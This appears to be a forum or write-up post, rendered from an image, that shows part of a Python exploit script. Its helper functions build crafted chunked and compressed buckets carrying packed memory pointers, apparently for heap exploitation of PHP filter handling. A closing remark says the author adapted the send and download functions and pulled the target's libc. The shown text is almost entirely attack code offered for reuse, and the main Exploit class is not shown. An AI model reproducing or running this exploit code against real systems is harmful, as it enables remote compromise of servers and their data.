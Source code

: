 ```python


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()
```
So basically, i just changed ```send``` and ```download``` functions, i also download the correct libc on the target machine and include it directly (i mean this is the most important changes)
